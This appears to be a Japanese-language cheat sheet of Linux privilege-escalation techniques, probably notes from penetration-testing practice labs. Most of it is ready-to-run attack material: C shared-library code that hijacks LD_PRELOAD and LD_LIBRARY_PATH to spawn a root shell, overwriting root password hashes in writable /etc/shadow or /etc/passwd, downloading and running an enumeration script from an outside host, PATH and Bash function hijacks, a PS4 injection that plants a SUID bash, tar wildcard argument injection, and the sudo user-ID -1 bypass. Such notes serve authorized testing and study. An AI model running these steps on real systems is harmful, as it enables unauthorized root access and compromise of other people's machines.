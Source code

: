 # Linux Privilege Escalation

## 実行フロー
1. コマンドの確認
2. ファイルの確認
3. sudoの確認

## root権限で実行可能なコマンドの確認
```
sudo -l
```

## ユーザー環境から継承された環境変数の確認
### env_keep オプションの内容を確認する。
```
sudo -l | grep -iF env_keep
```

#### LD_PRELOAD が存在する場合
1. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -fPIC -shared -nostartfiles -o /tmp/preload.so preload.c
```

preload.c
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
        unsetenv("LD_PRELOAD");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

2. コマンドの実行
```
sudo LD_PRELOAD=/tmp/preload.so [COMMAND]
```

#### LD_LIBRARY_PATH が存在する場合
1. プログラムが依存関係にある共有ライブラリを調べる。
```
ldd [COMMAND]
```

2. C言語のプログラムを共有ライブラリ(soファイル)にコンパイル
```
gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c
```

library_path.c
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

3. コマンドの実行
```
sudo LD_LIBRARY_PATH=/tmp [COMMAND]
```

#### Memo
LD_PRELOAD : プログラム（コマンド）実行の際に最初にロードする共有オブジェクトを指定する環境変数。  
LD_LIBRARY_PATH : 最初に共有オブジェクトを検索しに行くディレクトリを指定する環境変数。  
COMMAND : sudoで実行できるコマンド。  
setresuid() : Sets real and effective user IDs of the calling process


## ファイルの確認
### 機密ファイルのパーミッション確認
#### /etc/shadow
通常rootユーザーのみ読み取り可能。しかしもし書き込み可能な場合、新しいパスワードハッシュを生成し、rootユーザーのハッシュを上書きする。

新しいパスワードハッシュの生成
```
mkpasswd -m sha-512 [NEW PASSWORD]
```
#### /etc/passwd
通常全てのユーザーが読み取り可能だが、書き込みはrootユーザーのみ可能。しかしもし書き込み可能な場合、rootユーザーのパスワードを上書きする。

新しいパスワードの生成
```
openssl passwd [NEW PASSWORD]
```

### 怪しいスクリプトの調査
1. LinEnumのダウンロード、実行
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; sh /tmp/LinEnum.sh
```

2. CronTabの確認（コマンド名 or 絶対パス）
```
cat /etc/crontab
```

3. SUID / SGIDファイルの確認
```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

4. その他ファイルの確認（一般ユーザーのホームディレクトリなど。LinEnumのInteresting Filesセクションも参考）

5. 既存の脆弱性のあるプログラムの確認  
Exim <= 4.84-3（SUID / SGIDがセットされている必要あり。もし存在すれば [CVE-2016-1531](https://www.exploit-db.com/exploits/39535) を使う。）
```
find / -type f -name exim 2>/dev/null
```


### 実行されているプログラムの調査
・シェルスクリプトの場合
```
cat [FILE]
```

・バイナリファイルの場合
1. 読み取り可能な文字列を抽出し、内部で実行されているコマンドを確認。
```
strings [FILE]
```

2. 実行されているプログラムと依存関係にある共有ライブラリを確認。
```
ldd [FILE]
```

3. システムコール単位での処理の流れから、実行エラーになっているライブラリやファイルなどを確認。
```
strace [FILE] 2>&1 | grep -iE "open|access|no such file"
```

### 権限昇格の実行（コマンドの指定方法ごとに）
・コマンド名の場合  
tmpディレクトリに同名のスクリプトを作成。
```
echo '/bin/bash -p' | tee /tmp/[FILE]; chmod +x /tmp/[FILE]
export PATH=/tmp:$PATH
```

・絶対パスの場合  
1. スクリプトが配置されているディレクトリに書き込み権限があるか確認
```
ls -la | grep -iF [DIRECTORY]
```

2. スクリプト自体に書き込み権限があるか確認
```
ls -la [FILE]
```

3. Bashのバージョンを確認（デフォルトシェルがBashの場合）
```
/bin/bash --version
```

・Bash < ver4.2-048  
絶対パスの名前の関数を定義する。
```
function [ABSOLUTE PATH] { /bin/bash -p; }
export -f [ABSOLUTE PATH]
```

・Bash < ver4.4  
suid-env2をデバッグモードで実行する。Bashをデバッグモードで実行する場合、環境変数PS4が利用される。PS4には、/bin/bashのスクリプトをtmpディレクトリにコピーし、SUIDを付与するコマンドをセットする。
```
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash)' /usr/local/bin/suid-env2
/tmp/rootbash -p
```

4. ワイルドカードの使用を確認  
tarコマンドなどの引数として*を使用し、かつ実行先のディレクトリに書き込み権限がある場合。touchコマンドの引数には絶対パスを指定しないとエラーになる。
```
touch [FILE PATH]--checkpoint=1
touch [FILE PATH]--checkpoint-action=exec=[PAYLOAD]
```

## sudoのバージョン確認
```
sudo -V
```

・sudo =< ver1.8.28  
他のユーザーとしてコマンドを実行できる権限（ALL）が与えられている必要あり。
```
sudo -u#-1 /bin/bash
sudo -u#4294967295 /bin/bash
```


